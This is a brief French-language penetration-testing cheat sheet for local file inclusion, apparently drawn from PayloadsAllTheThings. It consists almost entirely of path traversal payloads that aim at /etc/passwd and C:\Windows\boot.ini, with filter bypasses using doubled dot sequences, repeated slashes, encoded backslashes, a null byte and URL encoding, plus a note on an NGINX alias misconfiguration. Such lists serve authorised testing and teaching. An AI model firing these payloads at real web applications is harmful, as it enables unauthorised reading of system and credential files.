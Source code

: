 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#local-file-inclusion
## Basique

> [!TIP]
> Chercher paramètre qui pointe vers un autre fichier

```
C:\Windows\boot.ini
```

```
/etc/passwd
```

```
../../../../etc/passwd
```

```
/../../../../etc/passwd
```

NGINX ALIAS MISCONFIG

```
/dossier../
```

## Bypasses


```
....//....//....//....//etc/passwd
```

```
//....//....//....//....//etc/passwd
```

```
..///////..////..//////etc/passwd
```

```
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### NULL Byte

```
../../../etc/passwd%00
```

### URL Encode

```
/etc/passwd

%2f%65%74%63%2f%70%61%73%73%77%64
```
